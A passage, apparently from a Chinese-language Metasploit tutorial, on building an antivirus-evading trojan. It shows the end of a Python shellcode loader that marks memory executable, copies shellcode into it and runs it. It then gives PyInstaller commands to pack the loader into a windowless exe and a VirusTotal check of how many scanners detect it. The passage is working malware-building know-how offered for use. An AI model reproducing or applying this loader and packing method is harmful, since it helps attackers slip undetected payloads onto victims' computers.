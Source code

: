 ```
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),buf,ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```  
3.解压pyinstaller2.0，然后打开cmd，cd到python安装目录（如果添加了环境变量则忽略）输入:
python pyinstaller安装目录\pyinstaller2.0.py --onfile --noconsole 保存的.py路径
1.Pyinstaller命令相关参数:  
```
-F   表示生成单个可执行文件
-W  表示去掉控制台窗口，这在GUI界面是非常有用。不过如果是命令行程序的话那就删除这个选项！
-p    表示你自己定义需要加载的类路劲，一般情况下用不到
-i     表示可执行文件的图标
```  
上面命令--onefile等同于-F，--noconsole等同于-W  
![免杀](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片20.png)  
这样即制作成功，在pyhton安装目录下找到dist目录，里面保留了生成的exe免杀木马。  
4.免杀验证：
用virustotal进行云查杀：  
http://www.virustotal.com/
只有18个杀毒软件报毒，很正常,因为这只是初步制作。  